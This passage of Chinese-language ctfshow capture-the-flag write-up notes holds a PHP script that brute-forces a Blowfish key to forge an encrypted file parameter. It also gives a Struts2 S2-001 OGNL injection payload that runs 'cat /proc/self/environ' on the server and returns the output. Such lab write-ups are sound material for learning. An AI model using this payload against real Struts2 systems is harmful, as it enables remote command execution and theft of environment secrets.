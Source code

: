 ```php
}
?>
```

爆破脚本
```php
<?php
$image = "Z6Ilu83MIDw=";

for($i=0;$i<30000;$i++){
    $key = substr(md5('ctfshow'.$i),3,8);
    $str = openssl_decrypt($image, 'bf-ecb', $key);
    if(strpos($str,'jpg')|strpos($str,'png')|strpos($str,'gif')){
        echo 'key:'.$key;
        echo '<br>rand():'.$i;
        $a = openssl_encrypt("config.php","bf-ecb",$key);
        echo '<br>anser:'.$a;
        echo '<br>file:'.$str;
        break;      
    }
}

```

### badhack
[wp](https://blog.h4ck.fun/roarctf2020-writeup/)

## java

### web279

```
F12=>/S2-001/=>相关漏洞
```

*payload*

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/proc/self/environ"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```

